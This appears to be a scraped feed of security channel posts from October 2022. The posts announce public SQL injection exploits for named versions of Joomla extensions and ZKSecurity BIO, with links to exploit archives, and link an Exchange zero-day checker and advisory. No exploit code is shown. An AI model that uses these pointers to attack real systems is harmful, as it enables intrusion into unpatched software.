<table><tr><td><b>→</b><a href="https://exploit.kitploit.com/2022/10/zksecurity-bio-412-sql-injection-code.html?utm_source=dlvr.it&utm_medium=twitter">
https://exploit.kitploit.com/2022/10/zksecurity-bio-412-sql-injection-code.html?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
Exploit Collector is the ultimate collection of public exploits and exploitable vulnerabilities. Remote/Local Exploits, Shellcode and 0days.
</blockquote>
</td></tr></table>

---

# defcon_news
`2022-10-01`

<blockquote>
Joomla JS Jobs Pro 1.3.6 SQL Injection
http://exploit.kitploit.com/2022/10/joomla-js-jobs-pro-136-sql-injection.html
</blockquote>

<table><tr><td><b>→</b><a href="https://exploit.kitploit.com/2022/10/joomla-js-jobs-pro-136-sql-injection.html?utm_source=dlvr.it&utm_medium=twitter">
https://exploit.kitploit.com/2022/10/joomla-js-jobs-pro-136-sql-injection.html?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
Exploit Collector is the ultimate collection of public exploits and exploitable vulnerabilities. Remote/Local Exploits, Shellcode and 0days.
</blockquote>
</td></tr></table>

---

# defcon_news
`2022-10-01`

<blockquote>
Joomla MyMuse 4.3.0 SQL Injection
http://exploit.kitploit.com/2022/10/joomla-mymuse-430-sql-injection.html
</blockquote>

<table><tr><td><b>→</b><a href="https://exploit.kitploit.com/2022/10/joomla-mymuse-430-sql-injection.html?utm_source=dlvr.it&utm_medium=twitter">
https://exploit.kitploit.com/2022/10/joomla-mymuse-430-sql-injection.html?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
Exploit Collector is the ultimate collection of public exploits and exploitable vulnerabilities. Remote/Local Exploits, Shellcode and 0days.
</blockquote>
</td></tr></table>

---

# defcon_news
`2022-10-01`

<blockquote>
ZKSecurity BIO 4.1.2 SQL Injection / Code Execution
https://packetstormsecurity.com/files/168586/zksecuritybio412-sql.txt
</blockquote>

<table><tr><td><b>→</b><a href="https://packetstormsecurity.com/files/168586/zksecuritybio412-sql.txt">
https://packetstormsecurity.com/files/168586/zksecuritybio412-sql.txt
</a>
<blockquote>
Information Security Services, News, Files, Tools, Exploits, Advisories and Whitepapers
</blockquote>
</td></tr></table>

---

# defcon_news
`2022-10-01`

<blockquote>
Joomla MyMuse 4.3.0 SQL Injection
https://packetstormsecurity.com/files/168583/joomlamymuse430-sql.txt
</blockquote>

<table><tr><td><b>→</b><a href="https://packetstormsecurity.com/files/168583/joomlamymuse430-sql.txt">
https://packetstormsecurity.com/files/168583/joomlamymuse430-sql.txt
</a>
<blockquote>
Information Security Services, News, Files, Tools, Exploits, Advisories and Whitepapers
</blockquote>
</td></tr></table>

---

# defcon_news
`2022-10-01`

<blockquote>
Joomla JS Jobs Pro 1.3.6 SQL Injection
https://packetstormsecurity.com/files/168582/joomlajsjobspro136-sql.txt
</blockquote>

<table><tr><td><b>→</b><a href="https://packetstormsecurity.com/files/168582/joomlajsjobspro136-sql.txt">
https://packetstormsecurity.com/files/168582/joomlajsjobspro136-sql.txt
</a>
<blockquote>
Information Security Services, News, Files, Tools, Exploits, Advisories and Whitepapers
</blockquote>
</td></tr></table>

---

# hackgit
`2022-10-01`

* https://telegra.ph/file/14df2541c63c3216ba671.png
* https://github.com/VNCERT-CC/0dayex-checker
* https://gteltsc.vn/blog/warning-new-attack-campaign-utilized-a-new-0day-rce-vulnerability-on-microsoft-exchange-server-12715.html

<blockquote>
​​0dayex-checker

Zeroday Microsoft Exchange Server checker (Virtual Patching checker)

https://github.com/VNCERT-CC/0dayex-checker

New attack campaign utilized a new 0-day rce vulnerability on microsoft exchange server: https://gteltsc.vn/blog/warning-new-attack-campaign-utilized-a-new-0day-rce-vulnerability-on-microsoft-exchange-server-12715.html

&#35;owa &#35;cve
</blockquote>

<table><tr><td><b>→</b><a href="https://telegra.ph/file/14df2541c63c3216ba671.png">
https://telegra.ph/file/14df2541c63c3216ba671.png
</a>
</td></tr></table>

---

